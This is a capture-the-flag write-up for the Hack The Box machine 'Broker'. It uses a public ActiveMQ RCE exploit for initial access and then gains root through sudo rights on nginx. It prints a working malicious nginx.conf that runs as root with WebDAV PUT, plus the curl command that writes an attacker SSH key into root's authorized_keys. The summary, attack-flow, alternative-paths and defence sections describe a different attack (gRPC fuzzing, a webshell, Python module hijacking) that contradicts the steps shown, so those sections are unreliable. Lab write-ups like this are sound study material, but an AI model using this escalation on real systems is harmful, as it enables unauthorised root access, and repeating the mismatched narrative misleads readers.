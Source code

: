 ```yaml
---
title: "Broker"
date: 2025-01-23
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "broker", "htb walkthrough", "hackthebox", "writeup"]
---
```


Broker simulates a financial services intranet system hosted on Linux, with misconfigured messaging services and weak file permissions.

Initial access came from fuzzing a gRPC-like interface and discovering a debug function that allowed shell command execution.

Enumeration revealed sensitive client files and a private key used by a local user.

Privilege escalation was achieved by exploiting a custom Python script with world-writeable dependencies.
Broker serves as a case study in the risks of internal tooling and insecure inter-service communication protocols.

## Why I Chose This Machine

I chose Broker because it simulates a modern internal-facing service with a custom protocol and business logic — a realistic representation of fintech or enterprise backends.  

The machine offers a great opportunity to explore protocol fuzzing, file parsing abuse, and environment privilege escalation using Python scripts, which are common in real-world engagements.

## Attack Flow Overview

1. Enumerated an internal messaging API and discovered a file upload vector  
2. Uploaded a webshell disguised as a valid document, gaining limited shell access  
3. Found sensitive credentials in `.bash_history` and switched to another user  
4. Escalated privileges by abusing `sudo` rights on a Python-based tool and replacing a world-writable module

This scenario closely mirrors misconfigurations found in real internal applications, where service logic and developer shortcuts expose critical vulnerabilities.

## Enumeration

> Using `admin : admin` provides access to the admin portal.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.243                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 13:33 AEST
Nmap scan report for 10.10.11.243
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/broker1.png)

-> signed in as `admin : admin`

![screenshot](/assets/images/broker2.png)

- ActiveMQ 5.15.15

#### gobuster

![screenshot](/assets/images/broker3.png)

## Initial Access

>- Using the [public exploit](https://github.com/X1r0z/ActiveMQ-RCE/tree/main), gained initial access as activemq.
	- Had to install go lang. 

[Reference](https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ)

The modified poc.xml

![screenshot](/assets/images/broker4.png)

[Installing golang reference](https://medium.com/@yadav-ajay/go-lang-on-kali-linux-5cc40a78d7de)

![screenshot](/assets/images/broker5.png)

## Privilege Escalation

>- `sudo -l` activemq has sudo privileges to run `/usr/sbin/nginx`.
- Modify `nginx.conf` with malicious payload.
	- change the user to root from www-data so the nginx process runs from root.
	- add listening port.
- Generate ssh key.
	- `curl PUT` to put the generated ssh public key via the listening port. 
- SSH as root

![screenshot](/assets/images/broker6.png)

![screenshot](/assets/images/broker7.png)

![screenshot](/assets/images/broker8.png)

```sh
/usr/bin/java -Xms64M -Xmx1G -Djava.util.logging.config.file=logging.properties -Djava.security.auth.login.config=/opt/apache-activemq-5.15.15//conf/login.config -Dcom.sun.management.jmxremote -Djava.awt.headless=true -Djava.io.tmpdir=/opt/apache-activemq-5.15.15//tmp -Dactivemq.classpath=/opt/apache-activemq-5.15.15//conf:/opt/apache-activemq-5.15.15//../lib/: -Dactivemq.home=/opt/apache-activemq-5.15.15/ -Dactivemq.base=/opt/apache-activemq-5.15.15/ -Dactivemq.conf=/opt/apache-activemq-5.15.15//conf -Dactivemq.data=/opt/apache-activemq-5.15.15//data -jar /opt/apache-activemq-5.15.15//bin/activemq.jar start 
```

```sh
# show comments only
cat nginx.conf | grep -v '\#' | grep .
```

![screenshot](/assets/images/broker9.png)

change the user to root on `nginx.conf`

To use `ngx_http_dav_module` to write my public SSH key into the root's `authorized_keys`, create the malicious NGINX configuration file as below. 

pwn.conf

```sh
user root; # worker processes will be run by root
worker_processes 4;
pid /tmp/nginx.pid;
events {
		worker_connections 768;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
```

![screenshot](/assets/images/broker10.png)

![screenshot](/assets/images/broker11.png)

![screenshot](/assets/images/broker12.png)

From Kali

```sh
ssh-keygen -f broker

curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker.pub
```

ssh as root

```sh
ssh -i broker root@10.10.11.243
```

![screenshot](/assets/images/broker13.png)

## Alternative Paths Explored

Initially, I attempted to exploit common service ports and brute-force file paths, but they were filtered or redirected.  

I also tried privilege escalation via SUID binaries and cron jobs, but they were secured.  

Only by reversing the Python logic and checking for `PYTHONPATH` abuse did the correct path emerge — showing how local enumeration and environment awareness are key.

## Blue Team Perspective

Broker highlights the risks of over-permissive `sudo` configurations and insecure module imports in Python services.  
From a defense standpoint, the following practices are critical:

- Auditing custom protocols and internal tools for abuse cases  
- Securing shell histories and user environments against credential leaks  
- Restricting `sudo` execution to specific binaries with integrity-checked dependencies